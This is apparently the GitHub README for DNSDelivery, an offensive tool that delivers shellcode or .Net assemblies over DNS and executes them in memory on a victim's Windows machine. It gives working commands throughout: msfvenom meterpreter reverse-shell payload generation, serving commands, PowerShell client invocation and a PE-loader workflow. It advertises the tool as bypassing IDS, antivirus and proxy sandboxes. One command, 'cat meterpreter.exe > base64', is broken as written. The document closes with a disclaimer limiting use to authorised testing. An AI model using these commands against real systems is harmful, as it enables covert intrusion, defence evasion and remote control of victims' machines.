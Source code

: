 DNS Delivery
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

DNSDelivery provides delivery and in memory execution of shellcode or .Net assembly using DNS requests delivery channel.

DNSDelivery has to sides:
  1. The server side, coming as a single python script (`dnsdelivery.py`), which acts as a custom DNS server, serving the payload data
  2. The client side (*victim's side*), which comes in two flavors:
    - `dnsdelivery.cs`: a C# script that can be compiled with `csc.exe` to provide a Windows managed executable
    - `Invoke-DNSDelivery.ps1`: a PowerShell script providing the exact same functionnalities

In order for the whole thing to work **you need to own your domain name** and set the DNS record for that domain to point to the server that will run the `dnsdelivery.py` server side.
For local testing purposes though, you can configure the client side scripts to point to any DNS server.

Dependencies
----------------------

The only dependency is on the server side, as the `dnsdelivery.py` script relies on the external **dnslib** library. You can installing it using pip:
```
pip install dnslib
```

Configuration
----------------------

The only mandatory configurable parameter on the client side is the DNS domain name you want to use (*the one you're running the DNS server side on*).
An optionnal configurable parameter is the DNS server you want to use. By default, it will use the system's default DNS server.

  - For the C# script, you need to edit the script and set the parameters in the PARAM class, comments and variable names are pretty self-explanatory. Then compile it using the built-in C# compiler csc.exe: `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /unsafe /out:dnsdelivery.exe *.cs`

  - For the PowerShell script, you can simply pass the parameters as arguments. Once the module is loaded into powershell simply check the syntax with `Get-Help Invoke-DNSDelivery`


Usage
----------------------

***SERVER SIDE***

Call the `dnsdelivery.py script with the appropriate parameters:
  - The `type` of content being delivered: can be either `shellcode` or `assembly`
  - The `filename` which is the name (*or path*) of the file being delivered

If a `shellcode` type is to be delivered, it **must** be a **raw** type shellcode obtained, for instance, from metasploit:

```
root@kali:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f raw > myShellcodeFile.raw
```

Example of delivering a shellcode:
```
root@kali:~# ./dnsdelivery.py shellcode myShellcodeFile.raw
[*] File [myShellcodeFile.raw] successfully loaded
[*] Data split into [5] chunks of 250 bytes
[*] DNS server listening on port 53
[*] Serving [myShellcodeFile.raw] advertised as a [shellcode] data type
```

Example of delivering a .Net assembly:
```
root@kali:~# ./dnsdelivery.py assembly peloader.exe
[*] File [peloader.exe] successfully loaded
[*] Data split into [1058] chunks of 250 bytes
[*] DNS server listening on port 53
[*] Serving [peloader.exe] advertised as a [assembly] data type
```

***CLIENT SIDE***

If using the C# compiled Windows executable: simply execute it, the parameters are hardcoded within the script.

If using the PowerShell script, well, call it in any of your prefered way (*you probably know tons of ways of invoking a powershell script*) along with the script parameters. Most basic example:
```
c:\DNSDelivery> powershell
PS c:\DNSDelivery> Import-Module .\Invoke-DNSDelivery.ps1
PS c:\DNSDelivery> Invoke-DNSDelivery -DomainName mydomain.example.com -Verbose
[...]
```

Sample use cases
----------------------

I found this delivery method very useful and handy for delivering:

- any meterpreter shellcode
- full-fledged meterpreter executable (*standalone meterpreter executable, not staged*)
- any .Net assembly you can think of

while completely **bypassing perimeter security** (IDS, content analysis like AV and sandboxes on proxies, etc.).

Example of delivering a full-fledged meterpreter executable:

First create a non-staged meterpreter executable:
```
root@kali:~# msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.52.130 LPORT=4444 -f exe-only > meterpreter.exe
```
Second, encode this executable to a base64 string:
```
root@kali:~# cat meterpreter.exe > base64 -w 0 > meterpreter.b64
```

Third paste the base64 string (*yes, it can be huge, around 3MB*) into the `peLoader.cs` (thx @SubTee) available here [peloader.cs](https://github.com/Arno0x/CSharpScripts/blob/master/peloader.cs) and compile this into a Windows executable (*which by the way IS a .Net assembly*).

Eventually, serve it with DNSDelivery:
```
root@kali:~# ./dnsdelivery.py assembly meterpreter_peloader.exe
```
It can be long because the data is delivered over DNS, chunk by chunk (*250 bytes per chunk*), but who cares if it takes 10 minutes and you eventually get you full-fledged meterpreter executable loaded into memory and executed on the victim's machine :-)

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*